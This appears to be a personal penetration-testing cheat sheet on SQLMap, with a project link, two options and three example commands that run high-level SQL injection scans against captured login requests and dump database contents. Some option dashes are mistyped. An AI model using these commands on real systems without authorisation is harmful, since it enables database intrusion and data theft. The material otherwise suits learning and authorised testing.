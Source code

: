 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MySQL
  - SQL
  - Tooling
---
```

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications.

[GitHub - sqlmapproject/sqlmap: Automatic SQL injection and database takeover tool](https://github.com/sqlmapproject/sqlmap/tree/master)
# Options

- `—-dump`: Dump DBMS database table entries
- `—-batch`: Never ask for user input, use the default behaviour

# Example

How to provide more information and strings which indicate failure.
Provides the HTTP query to be used.
```
sqlmap -level=5 -risk=3 -p username --string="Wrong identification" --dump --batch -r login-request.txt
```

```
sqlmap -r login.req --level 5 --risk 3 --batch
```
```
sqlmap -r r.txt --level 5 --risk 3 --technique=BEUSTQ --random-agent -p "limit" --tamper="space2comment.py" --flush-session --batch
```